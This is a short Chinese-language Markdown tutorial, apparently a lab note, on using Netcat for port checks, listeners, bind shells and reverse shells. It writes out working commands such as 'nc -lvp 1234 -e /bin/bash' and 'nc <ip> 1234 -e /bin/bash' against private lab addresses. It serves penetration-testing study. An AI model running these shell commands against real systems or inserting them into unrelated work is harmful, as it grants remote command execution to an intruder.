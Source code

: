 
    nc -h     #查看帮助命令
<font color = #FF4500>1.使用Netcat程序连接摸个端口，可判断噶一端口是否可受理网络连接</font><BR>
```netcat
-v    #详细输出
nc -v 192.168.2.103 80  #连接162.168.2.103  80端口并详细输出说明
```
<font color = #FF4500>2.也可以使用Netcat程序打开摸个网络端口，受理外部连如的网络连接</font><BR>

```ip：192.168.2.102
nc -lvp 1234   

l 代表监听 (listen)
v 代表详细输出  
p 代表指定端口号

```
<font color = #FF4500>3.此时新建一个终端窗口，使用 NetCat连接刚才打开的端口</font><BR>

```ip 192.168.2.103
nc 192.168.2.102 1234
```

<font color = #FF4500>4.连接成功后输入hello,world  返回192.168.2.102，发现输出到屏幕上了</font><BR>

### 开放式shell
<font color = #FF4500>1. shell命令受理端功能，在以受理端（监听端口）模式下启动Netcat时候，可以用  -e   选项绑定主机的 sheell (/bin/bash)</font><BR>

```ip 192.168.2.102

nc -lvp 1234 -e /bin/bash

```
<font color = #FF4500>2.此时新建一个终端窗口，使用 NetCat连接刚才打开的端口</font><BR>

```ip 192.168.2.103
nc 192.168.2.102 1234

此时用可以通过shell执行任意命令（whoami.....）
```

### 反弹式shell
<font color = #FF4500>还可以建立反弹式shell,让shell受理端连入摸个准备发送命令的监听端进程</font><BR>

```ip 192.168.2.102
nc -lvp 1234

```
<font color = #FF4500>1.此时新建一个终端窗口，使用 NetCat连接刚才打开的端口</font><BR>

```ip 192.168.2.103
nc 192.168.2.102 1234 -e /bin/bash

```
<font color = #FF4500>2.上述命令以连入端的模式启动Netcat, -e是在建立连接后执行shell,此时在监听端输入命令，会在连入受理端执行</font><BR>
